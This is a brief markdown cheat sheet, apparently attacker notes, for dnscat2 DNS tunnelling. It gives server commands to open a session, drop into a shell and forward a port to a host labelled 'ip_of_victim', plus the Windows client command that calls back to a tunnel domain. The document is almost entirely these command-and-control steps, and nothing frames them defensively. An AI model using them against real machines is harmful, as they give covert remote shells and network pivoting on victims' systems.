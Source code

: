 # Server
```
dnscat2-server tunnel.com
session -i SESSION#
shell

listen 127.0.0.1:PORT ip_of_victim:PORT
```
# Client

```
dnscat2-v0.07-client-win32.exe tunnel.com
```
